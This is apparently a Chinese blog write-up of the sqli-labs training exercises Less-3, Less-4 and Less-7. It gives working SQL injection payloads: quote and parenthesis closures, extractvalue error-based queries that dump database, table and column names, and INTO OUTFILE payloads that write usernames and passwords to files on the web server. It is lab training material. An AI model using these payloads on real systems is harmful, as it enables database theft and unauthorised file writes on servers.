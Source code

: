 ```yaml
---
title: sqli-labs
date: 2021-12-02 16:16:28
tags: sqli-labs
categories: sqli
typora-root-url: ..
---
```


##### less3 less4

less3   less4

less4(只需要将less3中的单引号换成双引号即可),同时less4也可通过报错注入

通过单引号报错信息

推测可能在接收参数后添加了( )包裹了id参数

![](/images/sqli-labs/Image.png)

![](/images/sqli-labs/Image%20%5B1%5D.png)

通过构造闭合即可

id=1')%23

接下来用union联合注入即可

less4报错注入:通过检测,发现用双引号和括号对id进行了包裹,测试出的可用语句为id=1") and 1=1%23

根据报错注入公式,开始操作

库名

```sql
id=1")and extractvalue(1,concat('~',(select database())))%23
```

表名

```sql
id=1")and extractvalue(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema='security')))%23
```

列名

```sql
id=1")and extractvalue(1,concat('~',(select group_concat(column_name) from information_schema.columns where table_name='users')))%23
```

利用right和left函数相互配合爆出字段名s

```sql
id=1")and%20extractvalue(1,concat(%27~%27,(right((select%20group_concat(column_name)%20from%20information_schema.columns%20where%20table_name=%27users%27),20))))%23
```

如法炮制,爆数据即可

##### less 7

本题经过尝试得到后台为((' '))包裹参数,可以通过页面显示,变化来进行盲注但是根据本题标题,提示使用outfile函数来进行注入
1.要使用outfile首先要知道绝对路径

通过之前的less进行查询

@@basedir是mysql安装路径

@@datadir是数据库路径

![](/images/sqli-labs/1.png)

2.读写权限测试mysql快速查看读写权限

```sql
show variables like '%secure%';
```

![](/images/sqli-labs/2.png)

```sql
id=1')) and (select count(*) from mysql.user)>0%23
```

如果返回正常,则说明有读写权限

![](/images/sqli-labs/3.png)

其次在linux中还需要mysql用户对目录有w权限才能写入

```sql
id=1%27))%20union%20select%201,2,table_name%20from%20information_schema.tables%20where%20table_schema%20=%27security%27%20into%20outfile%20%27/www/wwwroot/sqli-labs/Less-7/2.txt%27%23
```

通过上述语句查询表名,写入到2.txt

![](/images/sqli-labs/4.png)

貌似文件只能新建,不能重复写入
查询列名

```sql
id=1%27))%20union%20select%201,2,column_name%20from%20information_schema.columns%20where%20table_name%20=%20%27users%27%20into%20outfile%20%27/www/wwwroot/sqli-labs/Less-7/3.txt%27%23
```

查询数据

```sql
id=1%27))%20union%20select%201,username,password%20from%20security.users%20into%20outfile%20%27/www/wwwroot/sqli-labs/Less-7/4.txt%27%23
```

